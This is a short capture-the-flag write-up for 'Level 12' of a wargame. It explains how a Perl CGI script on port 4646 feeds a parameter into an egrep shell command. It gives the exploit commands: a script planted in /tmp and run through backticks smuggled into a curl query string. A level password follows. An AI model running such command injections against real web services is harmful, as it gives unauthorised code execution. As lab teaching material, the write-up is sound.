

# LEVEL 12

## 💡 Explanation

In this level we have to:
1. As always, check the permissions of level12.pl
2. Then, check the code and understand how to call it and get the response => now the code is listening on the port 4646, so we have to sent it the info using curl to be able to pass the parameters!
3. To see how to pass the params and how they are transformed, I've imported the code and print everything (see level12_cristina.pl)
4. It is clear that we have to use the `egrep "^$xx" /tmp/xd` to exploit the code, since the variable `$xx` is coming directly from the parameter
5. Now the big WTF moment, egrep executes the regex... it is very stupid... once this is discovered everything else is pretty easy....



## 👾 Commands

```
echo "getflag > /tmp/lol" > /tmp/LOL.SH
chmod +x /tmp/LOL.SH
curl '127.0.0.1:4646?x="`/*/LOL.SH`"'
cat /tmp/lol
```

## 🔍 Resources

- [PERL and CGI Tutorial](https://www.tutorialspoint.com/perl/perl_cgi.htm)
- [PERL regular expressions](https://voyager.deanza.edu/~perry/cis331.html)
- [Linux egrep command](https://www.computerhope.com/unix/uegrep.htm)
- [Curl pass parameters](https://stackoverflow.com/questions/13371284/curl-command-line-url-parameters)

## 🔥 Password
`g1qKMiRpXf53AWhDaU7FEkczr`
